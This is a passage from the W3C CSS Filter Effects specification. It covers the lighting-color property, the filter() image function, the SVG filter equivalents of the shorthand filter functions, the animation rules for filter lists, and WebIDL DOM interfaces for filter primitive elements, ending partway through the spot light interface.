  Animatable: yes.

#### 11.5. The `lighting-color` property {#filter-effects-1:LightingColorProperty}

| Field | Value |
| --- | --- |
| Name: | **lighting-color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | white |
| [Applies to:](#css-cascade-5:applies-to) | feDiffuseLighting and feSpecularLighting elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The `lighting-color` property defines the color of the light source for filter primitives feDiffuseLighting and feSpecularLighting.

The `lighting-color` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

### 12. Filter CSS `<image>` values {#filter-effects-1:FilterCSSImageValue}

CSS `<image>` values can be filtered with the filter functions specified for the CSS `filter` property. This specification introduces the <image> `filter()` function with the following syntax:

```css
filter() = filter( [ <image> | <string> ], <filter-value-list> )
```

The `filter()` function takes two arguments. The first argument is an `<image>`. The second is a filter function list as specified for the CSS `filter` property. The function takes the <image> parameter and applies the filter rules, returning a processing image. Filter- and filter effect regions are sized according to the concrete object size of the input <image>.

> **Note:** Since the dimension and origin of the original image must be preserved, some filter effects like `drop-shadow()` on a fully opaque image may not have any affect.

For the `blur()` function the edgeMode attribute on the feGaussianBlur element is set to `duplicate`. This produces more pleasant results on the edges of the filtered input image.

#### 12.1. Interpolating filter() {#filter-effects-1:interpolating-filter-image}

If both the starting and ending image are `filter()`s which may only differ by their used filter functions, they must be interpolated by interpolating their filter function lists as described in section [Interpolation of Filters](#filter-effects-1:interpolation-of-filters). Otherwise, they must be interpolated as generic `<image>`s. If the filter function interpolation can not be performed, the images must be interpolated as generic <image>s.

### 13. Shorthands defined in terms of the filter element {#filter-effects-1:ShorthandEquivalents}

#### 13.1. Filter primitive representation {#filter-effects-1:FilterPrimitiveRepresentation}

Below are the equivalents for each of the filter functions expressed in terms of the 'filter element' element. The parameters from the function are labeled with brackets in the following style: [amount]. In the case of parameters that are percentage values, they are converted to real numbers.

##### 13.1.1. grayscale {#filter-effects-1:grayscaleEquivalent}

```
<filter id="grayscale">
  <feColorMatrix type="matrix"
             values="
    (0.2126 + 0.7874 * [1 - amount]) (0.7152 - 0.7152  * [1 - amount]) (0.0722 - 0.0722 * [1 - amount]) 0 0
    (0.2126 - 0.2126 * [1 - amount]) (0.7152 + 0.2848  * [1 - amount]) (0.0722 - 0.0722 * [1 - amount]) 0 0
    (0.2126 - 0.2126 * [1 - amount]) (0.7152 - 0.7152  * [1 - amount]) (0.0722 + 0.9278 * [1 - amount]) 0 0
    0 0 0 1 0"/>
</filter>
```

##### 13.1.2. sepia {#filter-effects-1:sepiaEquivalent}

```
<filter id="sepia">
  <feColorMatrix type="matrix"
             values="
    (0.393 + 0.607 * [1 - amount]) (0.769 - 0.769 * [1 - amount]) (0.189 - 0.189 * [1 - amount]) 0 0
    (0.349 - 0.349 * [1 - amount]) (0.686 + 0.314 * [1 - amount]) (0.168 - 0.168 * [1 - amount]) 0 0
    (0.272 - 0.272 * [1 - amount]) (0.534 - 0.534 * [1 - amount]) (0.131 + 0.869 * [1 - amount]) 0 0
    0 0 0 1 0"/>
</filter>
```

##### 13.1.3. saturate {#filter-effects-1:saturateEquivalent}

```
<filter id="saturate">
  <feColorMatrix type="saturate" values="[amount]"/>
</filter>
```

##### 13.1.4. hue-rotate {#filter-effects-1:huerotateEquivalent}

```
<filter id="hue-rotate">
  <feColorMatrix type="hueRotate" values="[angle]"/>
</filter>
```

##### 13.1.5. invert {#filter-effects-1:invertEquivalent}

```
<filter id="invert">
  <feComponentTransfer>
      <feFuncR type="table" tableValues="[amount] (1 - [amount])"/>
      <feFuncG type="table" tableValues="[amount] (1 - [amount])"/>
      <feFuncB type="table" tableValues="[amount] (1 - [amount])"/>
  </feComponentTransfer>
</filter>
```

##### 13.1.6. opacity {#filter-effects-1:opacityEquivalent}

```
<filter id="opacity">
  <feComponentTransfer>
      <feFuncA type="table" tableValues="0 [amount]"/>
  </feComponentTransfer>
</filter>
```

##### 13.1.7. brightness {#filter-effects-1:brightnessEquivalent}

```
<filter id="brightness">
  <feComponentTransfer>
      <feFuncR type="linear" slope="[amount]"/>
      <feFuncG type="linear" slope="[amount]"/>
      <feFuncB type="linear" slope="[amount]"/>
  </feComponentTransfer>
</filter>
```

##### 13.1.8. contrast {#filter-effects-1:contrastEquivalent}

```
<filter id="contrast">
  <feComponentTransfer>
      <feFuncR type="linear" slope="[amount]" intercept="-(0.5 * [amount]) + 0.5"/>
      <feFuncG type="linear" slope="[amount]" intercept="-(0.5 * [amount]) + 0.5"/>
      <feFuncB type="linear" slope="[amount]" intercept="-(0.5 * [amount]) + 0.5"/>
  </feComponentTransfer>
</filter>
```

##### 13.1.9. blur {#filter-effects-1:blurEquivalent}

```
<filter id="blur">
  <feGaussianBlur stdDeviation="[radius radius]" edgeMode="[edge mode]" >
</filter>
```

Where edge mode computes to `none` for the `filter` property and to `duplicate` for the CSS Image `filter()` function.

> **Note:** The `blur()` function may increase the UA defined filter region. See [Filter region for shorthands](#filter-effects-1:filter-region-for-shorthands).

##### 13.1.10. drop-shadow {#filter-effects-1:dropshadowEquivalent}

```
<filter id="drop-shadow">
  <feGaussianBlur in="[alpha-channel-of-input]" stdDeviation="[radius]"/>
  <feOffset dx="[offset-x]" dy="[offset-y]" result="offsetblur"/>
  <feFlood flood-color="[color]"/>
  <feComposite in2="offsetblur" operator="in"/>
  <feMerge>
    <feMergeNode/>
    <feMergeNode in="[input-image]"/>
  </feMerge>
</filter>
```

> **Note:** The `drop-shadow()` function may increase the UA defined filter region. See [Filter region for shorthands](#filter-effects-1:filter-region-for-shorthands).

#### 13.2. Filter region for shorthands {#filter-effects-1:filter-region-for-shorthands}

All shorthand filters implemented with filter primitives in the previous subsection must have a UA defined filter region. The filter region must cover the visual content of an element including overflowing content, graphical control elements such as scrollbars, `border`/`border-image`, `box-shadow`, `text-shadow` and `outline`. Furthermore, if a shorthand filter expands this visible area like it is the case for `blur()` or `drop-shadow()` the filter region must cover this area as well.

> **Note:** For the handling of [filter sources](#filter-effects-1:FilterElement) see section [Filter region](#filter-effects-1:FilterEffectsRegion).

### 14. Animation of Filters {#filter-effects-1:animation-of-filters}

#### 14.1. Interpolation of Filter Function Lists {#filter-effects-1:interpolation-of-filters}

For interpolation between one filter and a second, the steps corresponding to the first matching condition in the following list must be run:

**If both filters have a `<filter-value-list>` of same length without `<url>` and for each `<filter-function>` for which there is a corresponding item in each list**

: Interpolate each `<filter-function>` pair following the rules in section [Interpolation of Filter Functions](#filter-effects-1:interpolation-of-filter-functions).

**If both filters have a `<filter-value-list>` of different length without `<url>` and for each `<filter-function>` for which there is a corresponding item in each list**

: 1. Append the missing equivalent `<filter-function>`s from the longer list to the end of the shorter list. The new added <filter-function>s must be initialized to their initial values for interpolation.
  2. Interpolate each `<filter-function>` pair following the rules in section [Interpolation of Filter Functions](#filter-effects-1:interpolation-of-filter-functions).

**If one filter is `none` and the other is a `<filter-value-list>` without `<url>`**

: 1. Replace `none` with the corresponding `<filter-value-list>` of the other filter. The new `<filter-function>`s must be initialized to their initial values for interpolation.
  2. Interpolate each `<filter-function>` pair following the rules in section [Interpolation of Filter Functions](#filter-effects-1:interpolation-of-filter-functions).

**Otherwise**

: Use discrete interpolation.

> **Issue:** Compute distance of filter functions. [[Issue #91]](https://github.com/w3c/csswg-drafts/issues/91)

#### 14.2. Addition {#filter-effects-1:addition}

It is possible to combine independent animations of `<filter-value-list>`s [SVG11].

Given two filter values representing an base value (*base filter list*) and a value to add (*added filter list*), returns the concatenation of the the two lists: ‘*base filter list* *added filter list*’.

> **Example:** The following SVG animation has two animate elements animating `filter` property of the rect element. Both specified animations are additive and have a duration of *10s*.
>
> ```
> <rect width="200px" filter="none" ...>
>   <animate attributeName="filter" from="blur(0px)" to="blur(10px)" dur="10s"
>            additive="sum"/>
>   <animate attributeName="filter" from="sepia(0)" to="sepia(1)" dur="10s"
>            additive="sum"/>
> </rect>
> ```
>
> After *5s*, the used value of `filter` is `blur(5px) sepia(0.5)`.

#### 14.3. Accumulation {#filter-effects-1:accumulation}

Accumulation of `<filter-value-list>`s follows the same matching and extending rules as [interpolation](#filter-effects-1:interpolation-of-filters), falling back to replace behavior if the lists do not match. However instead of interpolating the matching `<filter-function>` pairs, their arguments are arithmetically added together - except in the case of <filter-function>s whose initial value for interpolation is 1, which combine using one-based addition:

*Vresult* = *Va* + *Vb* - 1

### Appendix A: The deprecated `enable-background` property {#filter-effects-1:AccessBackgroundImage}

SVG 1.1 introduced the [enable-background](https://www.w3.org/TR/SVG11/filters.html#EnableBackgroundProperty) property [SVG11]. The property defined the back drop under the filter region at the time that the filter element was invoked. The concept defined by this property was identified to be incompatible with the model of stacking context in CSS at the time writing this specification. UAs can choose to implement the [enable-background](https://www.w3.org/TR/SVG11/filters.html#EnableBackgroundProperty) property as defined in SVG 1.1 but will not be compatible to this specification or to CSS Compositing and Blending [COMPOSITING-1].

This specification does not support the [enable-background](https://www.w3.org/TR/SVG11/filters.html#EnableBackgroundProperty) property. UAs must support the `isolation` property instead [COMPOSITING-1].

### Appendix B: DOM interfaces {#filter-effects-1:DOMInterfaces}

#### Interface SVGFilterElement {#filter-effects-1:InterfaceSVGFilterElement}

The **`SVGFilterElement`** interface corresponds to the filter element.

```webidl
[Exposed=Window]
interface SVGFilterElement : SVGElement {
  readonly attribute SVGAnimatedEnumeration filterUnits;
  readonly attribute SVGAnimatedEnumeration primitiveUnits;
  readonly attribute SVGAnimatedLength x;
  readonly attribute SVGAnimatedLength y;
  readonly attribute SVGAnimatedLength width;
  readonly attribute SVGAnimatedLength height;
};
```

**Attributes:**

: ****`filterUnits`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute filterUnits on the given filter element. Takes one of the constants defined in SVGUnitTypes.

  ****`primitiveUnits`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute primitiveUnits on the given filter element. Takes one of the constants defined in SVGUnitTypes.

  ****`x`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute x on the given filter element.

  ****`y`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute y on the given filter element.

  ****`width`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute width on the given filter element.

  ****`height`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute height on the given filter element.

#### Interface SVGFilterPrimitiveStandardAttributes {#filter-effects-1:InterfaceSVGFilterPrimitiveStandardAttributes}

```webidl
interface mixin SVGFilterPrimitiveStandardAttributes {
  readonly attribute SVGAnimatedLength x;
  readonly attribute SVGAnimatedLength y;
  readonly attribute SVGAnimatedLength width;
  readonly attribute SVGAnimatedLength height;
  readonly attribute SVGAnimatedString result;
};
```

**Attributes:**

: ****`x`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute x on the given element.

  ****`y`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute y on the given element.

  ****`width`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute width on the given element.

  ****`height`**,  of type SVGAnimatedLength, readonly**

  : Corresponds to attribute height on the given element.

  ****`result`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute result on the given element.

#### Interface SVGFEBlendElement {#filter-effects-1:InterfaceSVGFEBlendElement}

The **`SVGFEBlendElement`** interface corresponds to the feBlend element.

```webidl
[Exposed=Window]
interface SVGFEBlendElement : SVGElement {

  // Blend Mode Types
  const unsigned short SVG_FEBLEND_MODE_UNKNOWN = 0;
  const unsigned short SVG_FEBLEND_MODE_NORMAL = 1;
  const unsigned short SVG_FEBLEND_MODE_MULTIPLY = 2;
  const unsigned short SVG_FEBLEND_MODE_SCREEN = 3;
  const unsigned short SVG_FEBLEND_MODE_DARKEN = 4;
  const unsigned short SVG_FEBLEND_MODE_LIGHTEN = 5;
  const unsigned short SVG_FEBLEND_MODE_OVERLAY = 6;
  const unsigned short SVG_FEBLEND_MODE_COLOR_DODGE = 7;
  const unsigned short SVG_FEBLEND_MODE_COLOR_BURN = 8;
  const unsigned short SVG_FEBLEND_MODE_HARD_LIGHT = 9;
  const unsigned short SVG_FEBLEND_MODE_SOFT_LIGHT = 10;
  const unsigned short SVG_FEBLEND_MODE_DIFFERENCE = 11;
  const unsigned short SVG_FEBLEND_MODE_EXCLUSION = 12;
  const unsigned short SVG_FEBLEND_MODE_HUE = 13;
  const unsigned short SVG_FEBLEND_MODE_SATURATION = 14;
  const unsigned short SVG_FEBLEND_MODE_COLOR = 15;
  const unsigned short SVG_FEBLEND_MODE_LUMINOSITY = 16;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedString in2;
  readonly attribute SVGAnimatedEnumeration mode;
};

SVGFEBlendElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Blend Mode Types”:**

: ****`SVG_FEBLEND_MODE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_FEBLEND_MODE_NORMAL`****

  : Corresponds to value `normal`.

  ****`SVG_FEBLEND_MODE_MULTIPLY`****

  : Corresponds to value `multiply`.

  ****`SVG_FEBLEND_MODE_SCREEN`****

  : Corresponds to value `screen`.

  ****`SVG_FEBLEND_MODE_DARKEN`****

  : Corresponds to value `darken`.

  ****`SVG_FEBLEND_MODE_LIGHTEN`****

  : Corresponds to value `lighten`.

  ****`SVG_FEBLEND_MODE_OVERLAY`****

  : Corresponds to value `overlay`.

  ****`SVG_FEBLEND_MODE_COLOR_DODGE`****

  : Corresponds to value `color-dodge`.

  ****`SVG_FEBLEND_MODE_COLOR_BURN`****

  : Corresponds to value `color-burn`.

  ****`SVG_FEBLEND_MODE_HARD_LIGHT`****

  : Corresponds to value `hard-light`.

  ****`SVG_FEBLEND_MODE_SOFT_LIGHT`****

  : Corresponds to value `soft-light`.

  ****`SVG_FEBLEND_MODE_DIFFERENCE`****

  : Corresponds to value `difference`.

  ****`SVG_FEBLEND_MODE_EXCLUSION`****

  : Corresponds to value `exclusion`.

  ****`SVG_FEBLEND_MODE_HUE`****

  : Corresponds to value `hue`.

  ****`SVG_FEBLEND_MODE_SATURATION`****

  : Corresponds to value `saturation`.

  ****`SVG_FEBLEND_MODE_COLOR`****

  : Corresponds to value `color`.

  ****`SVG_FEBLEND_MODE_LUMINOSITY`****

  : Corresponds to value `luminosity`.

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feBlend element.

  ****`in2`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in2 on the given feBlend element.

  ****`mode`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute mode on the given feBlend element. Takes one of the SVG_FEBLEND_MODE_* constants defined on this interface.

#### Interface SVGFEColorMatrixElement {#filter-effects-1:InterfaceSVGFEColorMatrixElement}

The **`SVGFEColorMatrixElement`** interface corresponds to the feColorMatrix element.

```webidl
[Exposed=Window]
interface SVGFEColorMatrixElement : SVGElement {

  // Color Matrix Types
  const unsigned short SVG_FECOLORMATRIX_TYPE_UNKNOWN = 0;
  const unsigned short SVG_FECOLORMATRIX_TYPE_MATRIX = 1;
  const unsigned short SVG_FECOLORMATRIX_TYPE_SATURATE = 2;
  const unsigned short SVG_FECOLORMATRIX_TYPE_HUEROTATE = 3;
  const unsigned short SVG_FECOLORMATRIX_TYPE_LUMINANCETOALPHA = 4;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedEnumeration type;
  readonly attribute SVGAnimatedNumberList values;
};

SVGFEColorMatrixElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Color Matrix Types”:**

: ****`SVG_FECOLORMATRIX_TYPE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_FECOLORMATRIX_TYPE_MATRIX`****

  : Corresponds to value `matrix`.

  ****`SVG_FECOLORMATRIX_TYPE_SATURATE`****

  : Corresponds to value `saturate`.

  ****`SVG_FECOLORMATRIX_TYPE_HUEROTATE`****

  : Corresponds to value `hueRotate`.

  ****`SVG_FECOLORMATRIX_TYPE_LUMINANCETOALPHA`****

  : Corresponds to value `luminanceToAlpha`.

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feColorMatrix element.

  ****`type`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute type on the given feColorMatrix element. Takes one of the SVG_FECOLORMATRIX_TYPE_* constants defined on this interface.

  ****`values`**,  of type SVGAnimatedNumberList, readonly**

  : Corresponds to attribute values on the given feColorMatrix element.

#### Interface SVGFEComponentTransferElement {#filter-effects-1:InterfaceSVGFEComponentTransferElement}

The **`SVGFEComponentTransferElement`** interface corresponds to the feComponentTransfer element.

```webidl
[Exposed=Window]
interface SVGFEComponentTransferElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
};

SVGFEComponentTransferElement includes SVGFilterPrimitiveStandardAttributes;
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feComponentTransfer element.

#### Interface SVGComponentTransferFunctionElement {#filter-effects-1:InterfaceSVGComponentTransferFunctionElement}

This interface defines a base interface used by the component transfer function interfaces.

```webidl
[Exposed=Window]
interface SVGComponentTransferFunctionElement : SVGElement {

  // Component Transfer Types
  const unsigned short SVG_FECOMPONENTTRANSFER_TYPE_UNKNOWN = 0;
  const unsigned short SVG_FECOMPONENTTRANSFER_TYPE_IDENTITY = 1;
  const unsigned short SVG_FECOMPONENTTRANSFER_TYPE_TABLE = 2;
  const unsigned short SVG_FECOMPONENTTRANSFER_TYPE_DISCRETE = 3;
  const unsigned short SVG_FECOMPONENTTRANSFER_TYPE_LINEAR = 4;
  const unsigned short SVG_FECOMPONENTTRANSFER_TYPE_GAMMA = 5;

  readonly attribute SVGAnimatedEnumeration type;
  readonly attribute SVGAnimatedNumberList tableValues;
  readonly attribute SVGAnimatedNumber slope;
  readonly attribute SVGAnimatedNumber intercept;
  readonly attribute SVGAnimatedNumber amplitude;
  readonly attribute SVGAnimatedNumber exponent;
  readonly attribute SVGAnimatedNumber offset;
};
```

**Constants in group “Component Transfer Types”:**

: ****`SVG_FECOMPONENTTRANSFER_TYPE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_FECOMPONENTTRANSFER_TYPE_IDENTITY`****

  : Corresponds to value `identity`.

  ****`SVG_FECOMPONENTTRANSFER_TYPE_TABLE`****

  : Corresponds to value table.

  ****`SVG_FECOMPONENTTRANSFER_TYPE_DISCRETE`****

  : Corresponds to value `discrete`.

  ****`SVG_FECOMPONENTTRANSFER_TYPE_LINEAR`****

  : Corresponds to value linear.

  ****`SVG_FECOMPONENTTRANSFER_TYPE_GAMMA`****

  : Corresponds to value `gamma`.

**Attributes:**

: ****`type`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute in on the given feComponentTransfer element. Takes one of the SVG_FECOMPONENTTRANSFER_TYPE_* constants defined on this interface.

  ****`tableValues`**,  of type SVGAnimatedNumberList, readonly**

  : Corresponds to attribute tableValues on the given feComponentTransfer element. Takes one of the SVG_FECOLORMATRIX_TYPE_* constants defined on this interface.

  ****`slope`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute slope on the given feComponentTransfer element.

  ****`intercept`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute intercept on the given feComponentTransfer element.

  ****`amplitude`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute amplitude on the given feComponentTransfer element.

  ****`exponent`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute exponent on the given feComponentTransfer element.

  ****`offset`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute offset on the given feComponentTransfer element.

#### Interface SVGFEFuncRElement {#filter-effects-1:InterfaceSVGFEFuncRElement}

The **`SVGFEFuncRElement`** interface corresponds to the feFuncR element.

```webidl
[Exposed=Window]
interface SVGFEFuncRElement : SVGComponentTransferFunctionElement {
};
```

#### Interface SVGFEFuncGElement {#filter-effects-1:InterfaceSVGFEFuncGElement}

The **`SVGFEFuncGElement`** interface corresponds to the feFuncG element.

```webidl
[Exposed=Window]
interface SVGFEFuncGElement : SVGComponentTransferFunctionElement {
};
```

#### Interface SVGFEFuncBElement {#filter-effects-1:InterfaceSVGFEFuncBElement}

The **`SVGFEFuncBElement`** interface corresponds to the feFuncB element.

```webidl
[Exposed=Window]
interface SVGFEFuncBElement : SVGComponentTransferFunctionElement {
};
```

#### Interface SVGFEFuncAElement {#filter-effects-1:InterfaceSVGFEFuncAElement}

The **`SVGFEFuncAElement`** interface corresponds to the feFuncA element.

```webidl
[Exposed=Window]
interface SVGFEFuncAElement : SVGComponentTransferFunctionElement {
};
```

#### Interface SVGFECompositeElement {#filter-effects-1:InterfaceSVGFECompositeElement}

The **`SVGFECompositeElement`** interface corresponds to the feComposite element.

```webidl
[Exposed=Window]
interface SVGFECompositeElement : SVGElement {

  // Composite Operators
  const unsigned short SVG_FECOMPOSITE_OPERATOR_UNKNOWN = 0;
  const unsigned short SVG_FECOMPOSITE_OPERATOR_OVER = 1;
  const unsigned short SVG_FECOMPOSITE_OPERATOR_IN = 2;
  const unsigned short SVG_FECOMPOSITE_OPERATOR_OUT = 3;
  const unsigned short SVG_FECOMPOSITE_OPERATOR_ATOP = 4;
  const unsigned short SVG_FECOMPOSITE_OPERATOR_XOR = 5;
  const unsigned short SVG_FECOMPOSITE_OPERATOR_ARITHMETIC = 6;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedString in2;
  readonly attribute SVGAnimatedEnumeration operator;
  readonly attribute SVGAnimatedNumber k1;
  readonly attribute SVGAnimatedNumber k2;
  readonly attribute SVGAnimatedNumber k3;
  readonly attribute SVGAnimatedNumber k4;
};

SVGFECompositeElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Composite Operators”:**

: ****`SVG_FECOMPOSITE_OPERATOR_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_FECOMPOSITE_OPERATOR_OVER`****

  : Corresponds to value over.

  ****`SVG_FECOMPOSITE_OPERATOR_IN`****

  : Corresponds to value in.

  ****`SVG_FECOMPOSITE_OPERATOR_OUT`****

  : Corresponds to value out.

  ****`SVG_FECOMPOSITE_OPERATOR_ATOP`****

  : Corresponds to value atop.

  ****`SVG_FECOMPOSITE_OPERATOR_XOR`****

  : Corresponds to value xor.

  ****`SVG_FECOMPOSITE_OPERATOR_ARITHMETIC`****

  : Corresponds to value arithmetic.

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feComposite element.

  ****`in2`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in2 on the given feComposite element.

  ****`operator`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute operator on the given feComposite element.

  ****`k1`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute k1 on the given feComposite element.

  ****`k2`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute k2 on the given feComposite element.

  ****`k3`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute k3 on the given feComposite element.

  ****`k4`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute k4 on the given feComposite element.

#### Interface SVGFEConvolveMatrixElement {#filter-effects-1:InterfaceSVGFEConvolveMatrixElement}

The **`SVGFEConvolveMatrixElement`** interface corresponds to the feConvolveMatrix element.

```webidl
[Exposed=Window]
interface SVGFEConvolveMatrixElement : SVGElement {

  // Edge Mode Values
  const unsigned short SVG_EDGEMODE_UNKNOWN = 0;
  const unsigned short SVG_EDGEMODE_DUPLICATE = 1;
  const unsigned short SVG_EDGEMODE_WRAP = 2;
  const unsigned short SVG_EDGEMODE_NONE = 3;

  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedInteger orderX;
  readonly attribute SVGAnimatedInteger orderY;
  readonly attribute SVGAnimatedNumberList kernelMatrix;
  readonly attribute SVGAnimatedNumber divisor;
  readonly attribute SVGAnimatedNumber bias;
  readonly attribute SVGAnimatedInteger targetX;
  readonly attribute SVGAnimatedInteger targetY;
  readonly attribute SVGAnimatedEnumeration edgeMode;
  readonly attribute SVGAnimatedNumber kernelUnitLengthX;
  readonly attribute SVGAnimatedNumber kernelUnitLengthY;
  readonly attribute SVGAnimatedBoolean preserveAlpha;
};

SVGFEConvolveMatrixElement includes SVGFilterPrimitiveStandardAttributes;
```

**Constants in group “Edge Mode Values”:**

: ****`SVG_EDGEMODE_UNKNOWN`****

  : The type is not one of predefined types. It is invalid to attempt to define a new value of this type or to attempt to switch an existing value to this type.

  ****`SVG_EDGEMODE_DUPLICATE`****

  : Corresponds to value duplicate.

  ****`SVG_EDGEMODE_WRAP`****

  : Corresponds to value wrap.

  ****`SVG_EDGEMODE_NONE`****

  : Corresponds to value `none`.

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feConvolveMatrix element.

  ****`orderX`**,  of type SVGAnimatedInteger, readonly**

  : Corresponds to attribute order on the given feConvolveMatrix element.

  ****`orderY`**,  of type SVGAnimatedInteger, readonly**

  : Corresponds to attribute order on the given feConvolveMatrix element.

  ****`kernelMatrix`**,  of type SVGAnimatedNumberList, readonly**

  : Corresponds to attribute kernelMatrix on the given feConvolveMatrix element.

  ****`divisor`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute divisor on the given feConvolveMatrix element.

  ****`bias`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute bias on the given feConvolveMatrix element.

  ****`targetX`**,  of type SVGAnimatedInteger, readonly**

  : Corresponds to attribute targetX on the given feConvolveMatrix element.

  ****`targetY`**,  of type SVGAnimatedInteger, readonly**

  : Corresponds to attribute targetY on the given feConvolveMatrix element.

  ****`edgeMode`**,  of type SVGAnimatedEnumeration, readonly**

  : Corresponds to attribute edgeMode on the given feConvolveMatrix element.

  ****`kernelUnitLengthX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute kernelUnitLength on the given feConvolveMatrix element.

  ****`kernelUnitLengthY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute kernelUnitLength on the given feConvolveMatrix element.

  ****`preserveAlpha`**,  of type SVGAnimatedBoolean, readonly**

  : Corresponds to attribute preserveAlpha on the given feConvolveMatrix element.

#### Interface SVGFEDiffuseLightingElement {#filter-effects-1:InterfaceSVGFEDiffuseLightingElement}

The **`SVGFEDiffuseLightingElement`** interface corresponds to the feDiffuseLighting element.

```webidl
[Exposed=Window]
interface SVGFEDiffuseLightingElement : SVGElement {
  readonly attribute SVGAnimatedString in1;
  readonly attribute SVGAnimatedNumber surfaceScale;
  readonly attribute SVGAnimatedNumber diffuseConstant;
  readonly attribute SVGAnimatedNumber kernelUnitLengthX;
  readonly attribute SVGAnimatedNumber kernelUnitLengthY;
};

SVGFEDiffuseLightingElement includes SVGFilterPrimitiveStandardAttributes;
```

**Attributes:**

: ****`in1`**,  of type SVGAnimatedString, readonly**

  : Corresponds to attribute in on the given feDiffuseLighting element.

  ****`surfaceScale`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute surfaceScale on the given feDiffuseLighting element.

  ****`diffuseConstant`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute diffuseConstant on the given feDiffuseLighting element.

  ****`kernelUnitLengthX`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute kernelUnitLength on the given feDiffuseLighting element.

  ****`kernelUnitLengthY`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute kernelUnitLength on the given feDiffuseLighting element.

#### Interface SVGFEDistantLightElement {#filter-effects-1:InterfaceSVGFEDistantLightElement}

The **`SVGFEDistantLightElement`** interface corresponds to the feDistantLight element.

```webidl
[Exposed=Window]
interface SVGFEDistantLightElement : SVGElement {
  readonly attribute SVGAnimatedNumber azimuth;
  readonly attribute SVGAnimatedNumber elevation;
};
```

**Attributes:**

: ****`azimuth`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute azimuth on the given feDistantLight element.

  ****`elevation`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute elevation on the given feDistantLight element.

#### Interface SVGFEPointLightElement {#filter-effects-1:InterfaceSVGFEPointLightElement}

The **`SVGFEPointLightElement`** interface corresponds to the fePointLight element.

```webidl
[Exposed=Window]
interface SVGFEPointLightElement : SVGElement {
  readonly attribute SVGAnimatedNumber x;
  readonly attribute SVGAnimatedNumber y;
  readonly attribute SVGAnimatedNumber z;
};
```

**Attributes:**

: ****`x`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute x on the given fePointLight element.

  ****`y`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute y on the given fePointLight element.

  ****`z`**,  of type SVGAnimatedNumber, readonly**

  : Corresponds to attribute z on the given fePointLight element.

#### Interface SVGFESpotLightElement {#filter-effects-1:InterfaceSVGFESpotLightElement}

The **`SVGFESpotLightElement`** interface corresponds to the feSpotLight element.

```webidl
[Exposed=Window]
interface SVGFESpotLightElement : SVGElement {
  readonly attribute SVGAnimatedNumber x;
  readonly attribute SVGAnimatedNumber y;
  readonly attribute SVGAnimatedNumber z;
  readonly attribute SVGAnimatedNumber pointsAtX;
